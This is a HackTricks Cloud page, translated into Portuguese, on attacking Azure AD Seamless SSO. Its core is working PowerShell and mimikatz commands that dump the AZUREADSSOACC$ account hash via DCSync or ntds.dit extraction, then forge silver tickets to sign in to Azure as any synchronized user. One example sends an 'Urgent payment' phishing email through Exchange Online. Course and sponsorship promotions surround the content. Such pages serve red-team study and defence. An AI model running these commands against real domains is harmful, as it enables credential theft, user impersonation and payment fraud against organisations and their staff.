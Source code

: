 # Az - SSO Contínuo

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

O Azure Active Directory Seamless Single Sign-On (Azure AD SSO Contínuo) **autentica automaticamente os usuários quando eles estão em seus dispositivos corporativos** conectados à rede corporativa. Quando ativado, **os usuários não precisam digitar suas senhas para entrar no Azure AD**, e geralmente, nem mesmo seus nomes de usuário. Este recurso fornece aos seus usuários acesso fácil às suas aplicações baseadas na nuvem sem a necessidade de componentes adicionais no local.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Basicamente, o Azure AD SSO Contínuo **autentica os usuários** quando eles estão **em um PC unido ao domínio on-prem**.

É suportado tanto pelo [**PHS (Sincronização de Hash de Senha)**](phs-password-hash-sync.md) quanto pelo [**PTA (Autenticação Pass-through)**](pta-pass-through-authentication.md).

O SSO de Desktop utiliza **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC`$`** no AD on-prem. A senha da conta `AZUREADSSOACC$` é **enviada como texto puro para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD usa a senha enviada para descriptografar os tickets.

O **Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets Kerberos**. O navegador da máquina unida ao domínio encaminha os tickets para este endpoint para SSO.

### On-prem -> nuvem

A **senha** do usuário **`AZUREADSSOACC$` nunca muda**. Portanto, um administrador de domínio poderia comprometer o **hash desta conta**, e então usá-lo para **criar silver tickets** para se conectar ao Azure com **qualquer usuário on-prem sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Com o hash, você agora pode **gerar silver tickets**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para usar o silver ticket:

1. Inicie o _Mozilla Firefox_.
2. Acesse **`about:config`** e defina a preferência [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para o [valor](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navegue até qualquer aplicação web que esteja integrada com o nosso domínio AAD. Usaremos o [Office 365](https://portal.office.com/), que é o mais comum.
4. Uma vez na tela de login, preencha o nome de usuário, deixando o campo de senha vazio. Em seguida, pressione TAB ou ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Isso não contorna MFA se estiver ativado
{% endhint %}

#### ~~Criando tickets Kerberos para usuários apenas na nuvem~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se os administradores do Active Directory tiverem acesso ao Azure AD Connect, eles podem **definir SID para qualquer usuário na nuvem**. Assim, tickets Kerberos **também podem ser criados para usuários apenas na nuvem**. O único requisito é que o SID seja um [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adequado.

{% hint style="danger" %}
Alterar o SID de usuários administradores apenas na nuvem agora está **bloqueado pela Microsoft**.\
Para informações, consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Qualquer pessoa que possa gerenciar contas de computador (`AZUREADSSOACC$`) no contêiner ou OU em que esta conta está, pode **configurar uma delegação restrita baseada em recurso sobre a conta e acessá-la**.

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
